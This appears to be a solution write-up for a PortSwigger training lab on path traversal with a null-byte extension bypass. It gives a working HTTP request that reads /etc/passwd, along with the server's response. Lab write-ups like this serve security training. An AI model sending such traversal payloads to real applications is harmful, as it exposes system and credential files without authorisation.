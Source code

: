 # [Lab: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solutions

null byte:

```http
GET /image?filename=../../../../../../../../../../../../../../../../../../../etc/passwd%00.png HTTP/1.1

HTTP/1.1 200 OK
Content-Type: image/png
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
